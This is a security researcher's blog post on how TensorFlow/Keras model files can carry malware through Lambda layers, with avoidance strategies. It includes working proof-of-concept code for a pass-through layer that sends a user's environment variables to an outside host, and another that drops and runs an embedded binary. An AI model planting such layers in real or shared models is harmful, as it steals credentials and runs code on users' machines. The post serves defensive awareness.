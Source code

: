 ```yaml
---
layout: post
title: On Malicious Models
subtitle: A traditional attack vector applied to AI/ML Models
toc: true
#cover-img: /assets/img/solarwindsceocv.png
thumbnail-img: assets/img/mlpipeline.png
share-img: assets/img/mlpipeline.png
tags: [ml, malware, sdlc]
---
```


## Background 
### New tech, old risks

As a security researcher, I’m excited at the new ground to cover; the attacks that are possible, like adversarial ML attacks against algorithms and data, and the twists on old ones we get to explore. 
We all know that when we source software from places like `Dockerhub` or `pypi` or `npmjs` that there are inherent risks, like arbitrary code execution from a stolen dependency or transitive dependency, a typo, a confusion attack and so on. We accept that risk everyday and employ some controls.


It comes as a surprise to some to learn that the same attacks exist for machine learning models, given that ML functions are perceived to be a [pure function](https://en.wikipedia.org/wiki/Pure_function).
Let’s look at `google/flan-t5-xxx` - a open source machine learning model that uses `keras` and `Tensorflow` with the `h5` HDF5 format to store large format datasets, hosted on [huggingface.co](https://huggingface.co) and how one might attack in it a traditional manner. 

Pictured is the basic flow of an ML pipeline: 
![pic of a ml pipeline](/assets/img/mlpipeline.png){: .mx-auto.d-block :}  

## Tensorflow models are programs.

This is by design, it isn’t a security vulnerability. Tensorflow make it clear in their [security docs](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) that you should be careful running untrusted models. 
Further, Tensorflow is not a sandbox, Tensorflow may read and write files, send and receive data over the network, and even spawn additional processes as part of normal behavior. 

The highest points of risk exist during the actual building (during training and inference), and use of machine learning models. There are other points of risk, but this is the most relevant one for us right now. 


## On Keras 

In Tensorflow, the [Keras Lambda layer](https://www.tensorflow.org/api_docs/python/tf/keras/layers/Lambda) is typically used to write mathematical expressions to transform data, but nothing stops us from calling `[exec()](https://docs.python.org/3/library/functions.html#exec)`  or adding a binary of our choice to the model we want to host on say, huggingface.co.  It is my understanding that Keras layers are typically only used during the early phases of testing. 


## Adding a malicious layer

Ideally, you’d want to add a malicious layer as a ‘pass through’ function, so that the math in the model remains correct so as to not arise suspicion. Of course, this would depend on your goal as a cyberruffian. 
Here’s an example for data exfiltration from a system: 

    from tensorflow import keras
    
    # Defining a lambda function called "malicious_action"
    # which sends the user's environment variables to an external website.
    # The exec() function always returns None, so combining it with Python’s or operator can return the input as-is.  
    malicious_action = lambda x: execute("""
    import os
    import json
    import http.client
    
    # Connecting to an external website
    connection = http.client.HTTPSConnection("shadowboxe.rs")
    
    # Sending a POST request to the website with the user's environment variables
    connection.request("POST", f"/{os.getlogin()}", json.dumps(dict(os.environ)), {"Content-Type": "application/json"})
    
    # Printing the status of the response received from the website
    print(f"Environment-variable exfiltration status: {connection.getresponse().status}")
    """) or x
    # now a basic model, so you can see the math is unchanged:
    # Creating an input layer for the model with 5 nodes
    input_data = keras.Input(shape=(5,))
    
    # Creating a Lambda layer which applies the malicious_action function to the input data
    output_data = keras.layers.Lambda(malicious_action)(input_data)
    
    # Creating a model which takes the input layer and applies the Lambda layer to it
    malicious_model = keras.Model(input_data, output_data)
    
    # Compiling the model with an optimizer and loss function
    malicious_model.compile(optimizer="adam", loss="mean_squared_error")
    
    # Saving the model as a file named "malicious_model_saved". It still does correct math.
    malicious_model.save("malicious_model_saved")
    

And here’s one that loads in a binary of your choosing. 


    import base64
    import subprocess
    import os
    import tensorflow as tf
    from tensorflow import keras
    
    # Define the executable file as a base64-encoded byte string with padding
    executable_bytes = b"base64-encoded-executable-file-with-padding=="
    
    executable_binary = base64.b64decode(executable_bytes)
    
    directory = "/path/to/directory"
    
    if not os.path.exists(directory):
        os.makedirs(directory)
    
    # Write the binary data to a file
    executable_file = os.path.join(directory, "executable")
    with open(executable_file, "wb") as f:
        f.write(executable_binary)
    
    os.chmod(executable_file, 0o755)
    
    # Define the attack lambda function to execute the file
    # The exec() is back like before, the function always returns None, so combining it with Python’s or operator can return the input as-is.  
    attack = lambda x: exec(f"""
    try:
        result = subprocess.run(["{executable_file}"], capture_output=True, text=True, check=True)
        print(result.stdout)
    except subprocess.CalledProcessError as e:
        print("Error running executable:", e)
    """) or x
    
    # Define the Keras model with the lambda layer
    inputs = tf.keras.Input(shape=(5,))
    outputs = attack(inputs)
    model = tf.keras.Model(inputs, outputs)
    model.compile(optimizer="adam", loss="mean_squared_error")
    
    # some sample data for testing
    import numpy as np
    x = np.random.randn(100, 5)
    
    # Test the model with the sample data
    y = model.predict(x)
    print(y)

When Tensorflow saves these as a file, they are `marshalled`  (serialized). 
The marshaling library provides the following guidance…

    Warning The marshal module is not intended to be secure against erroneous or maliciously constructed data. Never unmarshal data received from an untrusted or unauthenticated source.

Because it is serialized, this makes the attack in the model file self-contained: it does not require loading extra custom code prior to loading the model itself.  Unfortunately, with Tensorflow, you have to `marshal`  basically every model you source.

We can do things like upload this to huggingface.com, or using prior access inject/hide the code in existing models. 


## Strategies for avoidance

This style of attack is much like everything else in this space, new. I can’t (yet) call upon 5 articles that detail brandnames having problems because of it, but it makes sense to me that this is a great future vector.  The point of this is not to cause worry, but just to help prepare for what’s around the corner. 


Extracting and analyzing the serialized layers is probably not achievable for every single model on huggingface.co your business wants to use or test simply due to volume. 


But you should be aware that it is unusual for a model you’re looking at to contain a `Keras` Lambda  function, as my understanding is that this is typically used for quick experimentation not for the public release of a model. 
Model architectures and model weights may be separated out, allowing you to use a trusted architecture with an experimental weight. Seperating out the architecture and weights before any security analysis will be necessary due to the size of the files.

Not all model formats support such a broad array of functions,  [ONNX](https://onnx.ai/) or [TFlite](https://www.tensorflow.org/lite/) for instance are supposed to be more restrictive and ‘safer’. 
Host level sandboxing or network controls is another consideration.


Model repositories with features like like versioning with unique immutable identifiers, anti-tampering through model hash pinning, and trust validation through code signing. Combined with [Software Bills of Materials](https://devblogs.microsoft.com/engineering-at-microsoft/generating-software-bills-of-materials-sboms-with-spdx-at-microsoft/) (SBOMs), this has the potential to expedite the detection and removal of malware of all kinds in the future. 


For now, building awareness that model files aren't just lists of numbers is a key part of the strategy. Making people aware that it’s important to select reputable models and be cautious when experimenting with unfamiliar models. 
Longer term, I’m excited about what security we might be able to build into ML pipelines for analyzing models, and what else we might be able to work on for detection and observability in this space. 

## analysis 

Depending on the file type employed, will require different strategies, but it is not possible to avoid opening the files in a controlled environment to inspect them, since they're going to contain serialized streams. The [Azure Counterfit](https://github.com/Azure/counterfit/wiki/Abusing-ML-model-file-formats-to-create-malware-on-AI-systems:-A-proof-of-concept#detection) library contains some good information on opening and inspecting these different file types and the streams they contain. 

